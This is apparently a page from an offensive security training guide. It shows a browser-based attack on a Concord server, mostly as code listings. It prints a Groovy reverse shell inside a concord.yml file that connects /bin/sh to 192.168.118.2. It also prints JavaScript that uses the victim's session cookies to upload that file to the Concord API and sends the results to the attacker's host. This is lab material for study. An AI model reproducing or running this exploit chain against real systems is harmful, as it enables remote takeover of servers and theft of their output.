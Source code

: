    <script>
        yml = `
configuration:
  dependencies:
    - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.8"

flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.118.2";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
`

      fetch("http://concord:8001/api/service/console/whoami", {
         credentials: 'include'
      })
...
   </script>
Listing 19 - Adding Yaml to HTML

Next, we will define a function at the end of the script tags that will post the concord.yml file.

function rce() {
   var ymlBlob = new Blob([yml], { type: "application/yml" });
   var fd = new FormData();
   fd.append('concord.yml', ymlBlob);
   fetch("http://concord:8001/api/v1/process", {
      // FIXME
      body: fd
   })
   .then(response => response.text())
   .then(data => {
      fetch("http://192.168.118.2/?msg=" + data )
   }).catch(err => {
      fetch("http://192.168.118.2/?err=" + err )
   });
}
Listing 20 - Post concord.yml
